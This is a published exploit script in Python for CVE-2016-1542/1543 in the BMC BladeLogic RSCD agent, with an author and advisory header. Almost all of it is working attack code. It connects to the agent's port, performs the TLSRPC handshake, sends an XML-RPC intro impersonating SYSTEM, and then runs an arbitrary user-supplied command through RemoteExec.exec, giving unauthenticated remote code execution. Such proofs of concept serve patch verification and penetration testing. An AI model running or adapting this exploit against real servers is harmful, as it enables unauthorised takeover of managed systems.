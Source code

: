 EXP
---

    # Exploit Title: BMC BladeLogic RSCD agent remote exec - XMLRPC version
    # Filename: BMC_rexec.py
    # Github: https://github.com/bao7uo/bmc_bladelogic
    # Date: 2018-01-24
    # Exploit Author: Paul Taylor / Foregenix Ltd
    # Website: http://www.foregenix.com/blog
    # Version: BMC RSCD agent 8.3.00.64
    # CVE: CVE-2016-1542 (BMC-2015-0010), CVE-2016-1543 (BMC-2015-0011)
    # Vendor Advisory: https://docs.bmc.com/docs/ServerAutomation/87/release-notes-and-notices/flashes/notification-of-critical-security-issue-in-bmc-server-automation-cve-2016-1542-cve-2016-1543
    # Tested on: 8.3.00.64

    #!/usr/bin/python

    # BMC BladeLogic RSCD agent remote exec - XMLRPC version
    # CVE: CVE-2016-1542 (BMC-2015-0010), CVE-2016-1543 (BMC-2015-0011)

    # By Paul Taylor / Foregenix Ltd

    # Credit: https://github.com/ernw/insinuator-snippets/tree/master/bmc_bladelogic
    # Credit: https://github.com/yaolga

    # Credit: Nick Bloor for AWS image for testing :-)
    # https://github.com/NickstaDB/PoC/tree/master/BMC_RSCD_RCE

    import socket
    import ssl
    import sys
    import argparse
    import requests
    import httplib
    from requests.packages.urllib3 import PoolManager
    from requests.packages.urllib3.connection import HTTPConnection
    from requests.packages.urllib3.connectionpool import HTTPConnectionPool
    from requests.adapters import HTTPAdapter


    class MyHTTPConnection(HTTPConnection):
        def __init__(self, unix_socket_url, timeout=60):
            HTTPConnection.__init__(self, HOST, timeout=timeout)
            self.unix_socket_url = unix_socket_url
            self.timeout = timeout

        def connect(self):
            self.sock = wrappedSocket


    class MyHTTPConnectionPool(HTTPConnectionPool):
        def __init__(self, socket_path, timeout=60):
            HTTPConnectionPool.__init__(self, HOST, timeout=timeout)
            self.socket_path = socket_path
            self.timeout = timeout

        def _new_conn(self):
            return MyHTTPConnection(self.socket_path, self.timeout)


    class MyAdapter(HTTPAdapter):
        def __init__(self, timeout=60):
            super(MyAdapter, self).__init__()
            self.timeout = timeout

        def get_connection(self, socket_path, proxies=None):
            return MyHTTPConnectionPool(socket_path, self.timeout)

        def request_url(self, request, proxies):
            return request.path_url


    def optParser():
        parser = argparse.ArgumentParser(
                            description="Remote exec " +
                            "BladeLogic Server Automation RSCD agent"
                        )
        parser.add_argument("host", help="IP address of a target system")
        parser.add_argument(
                "-p",
                "--port",
                type=int,
                default=4750,
                help="TCP port (default: 4750)"
                )
        parser.add_argument("command", help="Command to execute")
        opts = parser.parse_args()
        return opts


    def sendXMLRPC(host, port, packet, tlsrequest):
        r = tlsrequest.post(
                'http://' + host + ':' + str(port) + '/xmlrpc', data=packet
            )
        print r.status_code
        print r.content
        return


    intro = """<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>RemoteServer.intro</methodName><params><param><value>2016-1-14-18-10-30-3920958</value></param><param><value>7</value></param><param><value>0;0;21;AArverManagement_XXX_XXX:XXXXXXXX;2;CM;-;-;0;-;1;1;6;SYSTEM;CP1252;</value></param><param><value>8.6.01.66</value></param></params></methodCall>"""
    options = optParser()
    rexec = options.command
    PORT = options.port
    HOST = options.host
    rexec = """<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>RemoteExec.exec</methodName><params><param><value>""" + rexec  + """</value></param></params></methodCall>"""

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((HOST, PORT))

    sock.sendall("TLSRPC")
    wrappedSocket = ssl.wrap_socket(sock)

    adapter = MyAdapter()
    s = requests.session()
    s.mount("http://", adapter)

    sendXMLRPC(HOST, PORT, intro, s)
    sendXMLRPC(HOST, PORT, rexec, s)

    wrappedSocket.close()